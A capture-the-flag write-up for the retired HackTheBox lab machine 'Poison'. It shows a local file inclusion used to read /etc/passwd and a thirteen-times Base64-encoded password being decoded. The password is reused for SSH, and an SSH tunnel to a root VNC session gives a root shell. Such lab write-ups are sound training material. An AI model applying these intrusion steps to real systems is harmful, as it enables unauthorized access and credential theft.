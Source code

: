 # Poison

This is the write-up for the box Poison that got retired at the 8th September 2018.
My IP address was 10.10.14.39 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.84    poison.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/poison.nmap 10.10.10.84
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Checking HTTP (Port 80)

On the web page there is an application where it is possible to test local PHP files:

![Web page](poison_web-1.png)

So lets test the given PHP files and the _/listfiles.php_ seems to list files in the working directory:

```markdown
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt )
```

The file _pwdbackup.txt_ can be accessed and has the following content:
```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

It is a Base64-encoded string, so lets decode it 13 times:
```markdown
cat pwdbackup.b64 | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
```

The result is:
> Charix!2#4%6&8(0

In the web application it is possible to submit any file from the server as it is vulnerable to **Local File Inclusion** and when submitting _/etc/passwd_, it shows the contents of it and there is one user called _charix_.

Lets try the password on SSH:
```markdown
ssh charix@10.10.10.84
```

This works and we are logged in as the user _charix_.

## Privilege Escalation

In the home directory of _charix_ is a file called _secret.zip_.
Unzipping it:
```markdown
unzip secret.zip
```

It needs a password but using the same from before works and extracts a file called _secret_ that has some Non-ISO unreadable characters as content.
Maybe this is needed for something else, so lets enumerate the box manually to get more information:

Looking at the processes:
```markdown
ps aux
```

An unusual process is that **VNC** is running as root.
```markdown
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rf
```

Looking at the listening connections:
```markdown
netstat -an | grep LIST
```
```markdown
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

It seems that **VNC** is running on port 5801 and 5901.
We will establish a SSH tunnel through these ports:
```markdown
ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@10.10.10.84
```

This results in a dynamic port forwarding that listens on localhost on port 1080 going through SSH.
We can now browse to http[:]//127.0.0.1:6901 and it shows a string that validates that the port forwarding is working:
```markdown
RFB 003.008
```

Now we can use **vncviewer** to connect to the server:
```markdown
vncviewer 127.0.0.1::6901
```

It wants a password and the only thing we got, is the _secret_ file that could be the key for this connection.
Lets pass the file as the password:
```markdown
vncviewer -passwd secret 127.0.0.1:6901
```

This opens the **TightVNC** program and the VNC connection is a root shell!
